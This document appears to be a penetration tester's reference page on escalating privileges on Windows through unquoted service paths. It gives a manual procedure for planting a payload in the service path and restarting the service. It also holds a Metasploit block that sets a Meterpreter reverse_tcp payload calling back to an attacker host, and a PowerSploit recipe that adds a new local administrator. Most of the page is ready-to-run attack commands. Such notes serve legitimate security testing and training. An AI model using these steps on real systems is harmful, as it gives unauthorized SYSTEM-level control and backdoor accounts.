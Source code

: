 # Manually
1) [Look for Unquoted Service Paths](../../Tools/Shells/Windows/CMD/README.md#Look-for-Unquoted-Service-Paths).
2) Test for permission to [Stop](../../Tools/Shells/Windows/CMD/README.md#Stop-Service) and [Start](../../Tools/Shells/Windows/CMD/README.md#Start-Service) Service.
3) [Confirm that service will start as the LocalSystem Account](../../Tools/Shells/Windows/CMD/README.md#Query-Service).
4) [Confirm permission to write to directory in service path](../../Tools/Shells/Windows/CMD/README.md#Check-Access-Control-on-File-or-Directory).
5) Generate payload, named to match the segment of the service path.
6) Upload payload to service path, on target, with [Meterpreter](../../Tools/Metasploit/README.md#Upload-File).
7) The process can be unstable.  [Start Meterpreter listener, with autorun script to migrate to an existing SvcHost.exe process](../../Tools/Metasploit/README.md#Start-Handler-with-AutoRunScript-to-Migrate-Process).
8) [Stop](../../Tools/Shells/Windows/CMD/README.md#Stop-Service) and [Start](../../Tools/Shells/Windows/CMD/README.md#Start-Service) the service on the target.

# Metasploit
```bash
use exploit/windows/local/unquoted_service_path
set SESSION [Session ID]
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [Attack Host]
set LPORT [Port #]
exploit
```
 
# PowerSploit
##### Create New User in Administrators Group
```powershell
PS > Get-ServiceUnquoted
PS > Write-ServiceBinary -Name "[Binary Name]" -Path "[Binary Path]"

# Adds new user john to Administrators group, when the service is restared.
```
##### Confirm User Created
```cmd
net localgroup Administrators
```

# References
##### [Unquoted Service Path](https://pentestlab.blog/2017/03/09/unquoted-service-path/)